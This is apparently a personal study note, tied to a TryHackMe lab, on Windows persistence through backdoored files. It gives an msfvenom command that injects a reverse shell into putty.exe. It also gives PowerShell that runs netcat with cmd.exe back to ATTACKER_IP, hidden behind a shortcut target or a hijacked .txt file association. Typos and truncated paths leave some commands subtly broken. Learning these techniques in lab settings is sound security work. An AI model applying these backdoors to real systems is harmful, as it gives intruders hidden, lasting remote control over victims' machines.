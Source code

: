 # Windows Persistence - Backdooring Files

## Injecting Executables Files

Look for shortcuts and executables that potentially used frequently; changing the properties of the file the user interacts by downloading and configure to execute an additional payload silently by adding an extra thread in the binary. Check to if would work on user's end also.

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=$ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

This is not that sneaky, but effective.

## Shortcut File Target Injection

Of Shortcut's properties change the "Target:" to `powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1` with `backdoor.ps1` be:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# Path to original execuable below to create illusion th same process will run when shortcut is used
C:\Windows\Systenm32...
```

Make sure to "Change Icon..."  to revert any visble changes to the Icon display ni the GUI after editing this Shortcut.

## Hijacking File Associations

Default operation system file associations are stored as key in [Registry](Windows-Registry). For each file type a key is store under `HKLM\Software\Classes\` . For `.txt` stored `HKLM\Software\Classes\.txt`  subkey would look like the table below:

Name | Type | Data
--- | --- | ---
(Default) | REG_SZ | txtfile
Content Type | REG_SZ | text/plain
Percieved Type | REG_SZ | text

The Programmatic ID (ProgID) is is identifier to a program installed on the system; the `txtfile` of the above table is the ProgID. Most ProgID entries will have a subkey under `shell\open\command` hwre default command to run for file with that extension are specifed: `HKLM\Software\Classes\txtfile\shell\open\command`. This subkey will be `(Default) | REG_EXP... | %SystemRoot%\system32\NOTEPAD.EXE %1`. To backdoor this create a script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# The $DEFAULT = %SystemRoot%\system32\THISEXEHERE.EXE %1 of HKLM\Software\Classes\{File Type Targeted}\shell\open\command
C:\Windows\Systenm32\$DEFAULT.exe $args[0]
```


## References

[THM Persistence Room](https://tryhackme.com/room/windowslocalpersistence)